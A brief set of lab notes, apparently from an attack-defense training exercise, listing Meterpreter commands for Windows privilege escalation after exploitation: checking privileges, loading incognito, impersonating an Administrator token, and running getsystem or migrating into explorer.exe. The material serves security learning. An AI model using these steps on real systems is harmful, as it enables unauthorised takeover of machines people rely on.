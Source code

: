 - after exploting target and getting meterpreter session
- getuid 
- getprivs /  we can see SeImpersonatePrivilges
- sysinfo
- use incognito / load incognito
- help
- list_tokens -u 
- impersonate_token ATTACKDEFENSE\\\\Administrator
- getsystem / ps and migrate with explorer.exe
- getuid (we shoudl have higher privs)
- cd C:\\\\
